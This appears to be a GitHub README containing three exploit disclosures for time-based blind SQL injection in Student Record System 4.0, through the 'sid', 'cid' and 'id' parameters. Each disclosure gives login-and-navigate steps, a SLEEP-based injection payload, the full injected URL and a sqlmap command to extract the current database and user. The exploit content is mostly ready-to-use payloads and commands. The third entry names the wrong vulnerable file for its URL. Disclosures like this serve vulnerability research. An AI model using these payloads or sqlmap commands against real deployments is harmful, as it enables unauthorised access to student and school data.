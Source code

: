 # Exploit Title: Student Record System 4.0 - 'sid' SQL Injection  
# Date: 2/2/2021  
# Exploit Author: Jannick Tiger  
# Vendor Homepage: https://phpgurukul.com/  
# Software Link: https://phpgurukul.com/wp-content/uploads/2019/05/schoolmanagement.zip  
# Version: V 4.0    
# Tested on: Windows、XAMPP  

# Identify the vulnerability  
1. go to http://localhost/schoolmanagement/pages/login.php and login with your account  
2. then go to http://localhost/schoolmanagement/pages/view-subject.php  
3. Click edit on any user and then add the following payload to the url  
payload:' AND (SELECT 9300 FROM (SELECT(SLEEP(5)))RnkL) AND 'uXEB'='uXEB  
url:http://localhost/schoolmanagement/pages/edit-sub.php?sid=3' AND (SELECT 9300 FROM (SELECT(SLEEP(5)))RnkL) AND 'uXEB'='uXEB    
# Vulnerability file：edit-sub.php  
![image](https://github.com/BigTiger2020/Student-Record-System-/blob/main/sid.png)
# Exploit  
Now you can exploit it using sqlmap  
command: sqlmap -u url --batch --dbms=mysql --current-db --current-user  
example: sqlmap.py -u http://localhost/schoolmanagement/pages/edit-sub.php?sid=3 --batch --dbms=mysql --current-db --current-user  
![image](https://github.com/BigTiger2020/Student-Record-System-/blob/main/sidsql.png)  






# Exploit Title: Student Record System 4.0 - 'cid' SQL Injection    
# Date: 2/2/2021  
# Exploit Author: Jannick Tiger  
# Vendor Homepage: https://phpgurukul.com/  
# Software Link: https://phpgurukul.com/wp-content/uploads/2019/05/schoolmanagement.zip  
# Version: V 4.0    
# Tested on: Windows、XAMPP   


# Identify the vulnerability  
1. go to http://localhost/schoolmanagement/pages/login.php and login with your account  
2. then go to http://localhost/schoolmanagement/pages/view-course.php 
3. Click edit on any user and then add the following payload to the url  
payload:' AND (SELECT 9265 FROM (SELECT(SLEEP(5)))ljCB) AND 'yXjI'='yXjI   
url:http://localhost/schoolmanagement/pages/edit-course.php?cid=7'AND (SELECT 9265 FROM (SELECT(SLEEP(5)))ljCB) AND 'yXjI'='yXjI   
# Vulnerability file：edit-course.php  
![image](https://github.com/BigTiger2020/Student-Record-System-/blob/main/cid.png)
# Exploit  
Now you can exploit it using sqlmap  
command: sqlmap -u url --batch --dbms=mysql --current-db --current-user  
example: sqlmap.py -u http://localhost/schoolmanagement/pages/edit-course.php?cid=7 --batch --dbms=mysql --current-db --current-user  
![image](https://github.com/BigTiger2020/Student-Record-System-/blob/main/cidsql.png)    








# Exploit Title: Student Record System 4.0 - 'id' SQL Injection    
# Date: 2/2/2021  
# Exploit Author: Jannick Tiger  
# Vendor Homepage: https://phpgurukul.com/  
# Software Link: https://phpgurukul.com/wp-content/uploads/2019/05/schoolmanagement.zip  
# Version: V 4.0    
# Tested on: Windows、XAMPP   


# Identify the vulnerability  
1. go to http://localhost/schoolmanagement/pages/login.php and login with your account  
2. then go to http://localhost/schoolmanagement/pages/view.php 
3. Click edit on any user and then add the following payload to the url  
payload:' AND (SELECT 6593 FROM (SELECT(SLEEP(5)))tlDh) AND 'nzIe'='nzIe 
url:http://localhost/schoolmanagement/pages/edit-std.php?id=3' AND (SELECT 6593 FROM (SELECT(SLEEP(5)))tlDh) AND 'nzIe'='nzIe 
# Vulnerability file：edit-course.php  
![image](https://github.com/BigTiger2020/Student-Record-System-/blob/main/id.png)
# Exploit  
Now you can exploit it using sqlmap  
command: sqlmap -u url --batch --dbms=mysql --current-db --current-user  
example: sqlmap.py -u http://localhost/schoolmanagement/pages/edit-std.php?id=3 --batch --dbms=mysql --current-db --current-user  
![image](https://github.com/BigTiger2020/Student-Record-System-/blob/main/idsql.png)  
